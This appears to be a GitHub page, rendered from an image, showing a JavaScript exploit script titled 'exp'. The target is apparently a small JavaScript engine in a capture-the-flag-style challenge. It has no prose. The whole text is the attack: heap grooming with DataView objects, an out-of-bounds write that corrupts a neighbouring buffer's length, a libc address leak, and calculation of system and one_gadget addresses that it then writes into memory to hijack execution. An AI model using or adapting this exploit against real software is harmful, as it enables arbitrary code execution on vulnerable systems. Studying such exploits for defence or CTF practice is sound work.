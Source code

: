 ### exp

```javascript
b = DataView(0x68)
// obj: 0x5555555c8850 obj->u.dataview.data: 0x5555555c88c0
a = DataView(0x68)
// obj: 0x5555555c8980 obj->u.dataview.data: 0x5555555c89f0
b = DataView(0x68)
// obj: 0x5555555c8ab0 obj->u.dataview.data: 0x5555555c8b20
c = DataView(0x68)
// obj: 0x5555555c8b90 obj->u.dataview.data: 0x5555555c8c00
// d = new Date();
d = DataView(0x68)
// obj: 0x5555555c8cc0
e = DataView(0x1000*0x1000)


print(c)
b.setUint8(0x68+8,0xa)
//print(c);
print(c)
print(c.prototype)
Date.prototype.setTime.bind(c)(1.09522e+12)
b.setUint8(0x68+8,16)
//print("0x"+c.getLength().toString(16))

onegadgets = [0xe3b2e,0xe3b31,0xe3b34,0xe3d23,0xe3d26]
main_arena_offset = 0x1ecb80
system_offset = 0x522c0
/*
for(var i=0;i<0x1000;i++)
{
    offset = i*4;
    tmp_addr1 = c.getUint32(offset)
    tmp_addr2 = c.getUint32(offset+4)
    leak_libc_addr = tmp_addr1 + tmp_addr2*0x100000000
    if(tmp_addr2>0x7f00){
        print(offset+" : "+leak_libc_addr.toString(16))
    }
}
*/

offset = 536
tmp_addr1 = c.getUint32(offset)
tmp_addr2 = c.getUint32(offset+4)
leak_libc_addr = tmp_addr1 + tmp_addr2*0x100000000
print(offset+" : "+leak_libc_addr.toString(16))

libc_offset = 16986096
libc_base = leak_libc_addr + libc_offset
system_addr = libc_base + system_offset
one_gadget = libc_base + onegadgets[1]
print("0x"+libc_base.toString(16))
print("0x"+system_addr.toString(16))
print("0x"+one_gadget.toString(16))

low_four_bytes = (one_gadget<<32)>>>32
high_four_bytes = parseInt(one_gadget/0x100000000)
print("0x"+low_four_bytes.toString(16))
print("0x"+high_four_bytes.toString(16))

c.setUint8(0xc0,0x4)
c.setUint32(0xe8,low_four_bytes)
```